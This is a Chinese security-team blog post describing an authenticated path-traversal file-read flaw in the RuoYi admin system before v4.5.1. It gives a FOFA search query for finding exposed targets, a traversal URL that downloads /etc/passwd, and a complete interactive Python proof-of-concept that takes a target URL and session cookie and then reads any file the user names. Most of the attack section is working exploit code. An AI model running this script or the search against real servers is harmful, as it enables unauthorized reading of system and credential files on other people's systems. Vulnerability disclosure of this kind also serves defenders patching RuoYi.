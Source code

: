 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/zrVTiHCCymlnrERrSJOUog)

**点击蓝字**

![图片](https://mmbiz.qpic.cn/mmbiz_gif/4LicHRMXdTzCN26evrT4RsqTLtXuGbdV9oQBNHYEQk7MPDOkic6ARSZ7bt0ysicTvWBjg4MbSDfb28fn5PaiaqUSng/640?wx_fmt=gif&tp=webp&wxfrom=5&wx_lazy=1)

**关注我们**

  

  

**_声明  
_**

本文作者：PeiQi

本文字数：1243

阅读时长：10min

附件/链接：点击查看原文下载

声明：文章仅供学习参考，请勿用作违法用途，否则后果自负

本文属于【狼组安全社区】原创奖励计划，未经许可禁止转载

  

  

  

**_前言_**

  

  

一、

**_漏洞描述_**

若依管理系统是基于SpringBoot的权限管理系统,登录后台后可以读取服务器上的任意文件  

二、

**_漏洞影响_**

RuoYi < v4.5.1

**三、**

**_漏洞复现_**

FOFA查询语句

```
app="若依-管理系统" && body="admin"
```

![图片](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzAxzs02coF0icbuc9Mb25RgTQibR6MjfgoKOSkBRNbDC7cHRk5B9t7EV5icBUiaIw2QPoy6kXjRRTNSUw/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

  

登录后台后访问 Url  

https://xxx.xxx.xxx.xxx/common/download/resource?resource=/profile/../../../../etc/passwd

![图片](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzAxzs02coF0icbuc9Mb25RgTicYActF4oc3S5Jb5ib6lp1Drc02BA8zxI8X1NOm3hicPLVNrZgJ9Luv7Q/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

  

访问后会下载文件 **/etc/passwd**

![图片](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzAxzs02coF0icbuc9Mb25RgTKUh1HjKrJpUgO4WORO1EgFm4mWKo2OmgEfG7huY5VUMXzMkwxhRREw/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

  

可以使用Burp抓包改变 **/etc/passwd** 为其他文件路径获取敏感信息  

![图片](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzAxzs02coF0icbuc9Mb25RgT4u4caofibw4kCuyGibzhAxnqYtUwiciakcoxhBvcoGSHJdy83j1caqr3mg/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

  

  

![图片](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzAxzs02coF0icbuc9Mb25RgT3ibFBwpic9ia2NFmdJYA9B9PtDIQudDN3OTUdxx7sFvAv7sJ3gLHesDjw/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

![图片](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzAxzs02coF0icbuc9Mb25RgTibGmyXMWpQOF279wn4yIQWDjmDZaQXdRsUOEO9uaiaB1JGbnZsEqFfuQ/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

  

在更新的版本中添加了危险字符的过滤

![图片](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzAxzs02coF0icbuc9Mb25RgTyqKTlgyxUD0FaC8epfSRhlnXPmxVH7QK2yNxzckcFiaEYGTBLytaKSQ/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

  

**四、**

**_漏洞POC_**

POC使用需要后台的Cookie,读取的文件路径应为根路径

```
`import requests``import sys``import random``import re``from requests.packages.urllib3.exceptions import InsecureRequestWarning``def title():` `print('+------------------------------------------')` `print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')` `print('+  \033[34mVersion: RuoYi < v4.5.1                                            \033[0m')` `print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')` `print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')` `print('+  \033[36mCookie      >>> JSESSIONID=xxxxxx                                   \033[0m')` `print('+  \033[36mFile        >>> /etc/passwd                                         \033[0m')` `print('+------------------------------------------')``def POC_1(target_url, Cookie):` `vuln_url = target_url + "/common/download/resource?resource=/profile/../../../../etc/passwd"` `headers = {` `"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",` `"Cookie":Cookie` `}` `try:` `requests.packages.urllib3.disable_warnings(InsecureRequestWarning)` `response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)` `print("\033[32m[o] 正在请求 {}//common/download/resource?resource=/profile/../../../../etc/passwd \033[0m".format(target_url))` `if "root" in response.text and response.status_code == 200:` `print("\033[32m[o] 目标 {}存在漏洞 ,成功读取 /etc/passwd \033[0m".format(target_url))` `print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))` `while True:` `Filename = input("\033[35mFile >>> \033[0m")` `if Filename == "exit":` `sys.exit(0)` `else:` `POC_2(target_url, Cookie, Filename)` `else:` `print("\033[31m[x] 请求失败 \033[0m")` `sys.exit(0)` `except Exception as e:` `print("\033[31m[x] 请求失败 \033[0m", e)``def POC_2(target_url, Cookie, Filename):` `vuln_url = target_url + "/common/download/resource?resource=/profile/../../../../{}".format(Filename)` `headers = {` `"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",` `"Cookie":Cookie` `}` `try:` `requests.packages.urllib3.disable_warnings(InsecureRequestWarning)` `response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)` `print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))` `except Exception as e:` `print("\033[31m[x] 请求失败 \033[0m", e)``if __name__ == '__main__':` `title()` `target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))` `Cookie = str(input("\033[35mCookie >>> \033[0m"))` `POC_1(target_url, Cookie)`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

**团队【PeiQi】师傅的微信二维码放在这了**

  

![图片](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzBVvicBFUlseTHFTXALE0D9XhJILPG5qnhYyI1fjI4vqjV0MgnUM4ibYRfCFaV4wk5FRaGibxMptiadRw/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

  

  

  

  

**_扫描关注公众号回复加群_**

**_和师傅们一起讨论研究~_**

  

**长**

**按**

**关**

**注**

**WgpSec狼组安全团队**

微信号：wgpsec

Twitter：@wgpsec

  

![图片](https://mmbiz.qpic.cn/mmbiz_jpg/4LicHRMXdTzBhAsD8IU7jiccdSHt39PeyFafMeibktnt9icyS2D2fQrTSS7wdMicbrVlkqfmic6z6cCTlZVRyDicLTrqg/640?wx_fmt=jpeg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

![图片](https://mmbiz.qpic.cn/mmbiz_gif/gdsKIbdQtWAicUIic1QVWzsMLB46NuRg1fbH0q4M7iam8o1oibXgDBNCpwDAmS3ibvRpRIVhHEJRmiaPS5KvACNB5WgQ/640?wx_fmt=gif&tp=webp&wxfrom=5&wx_lazy=1)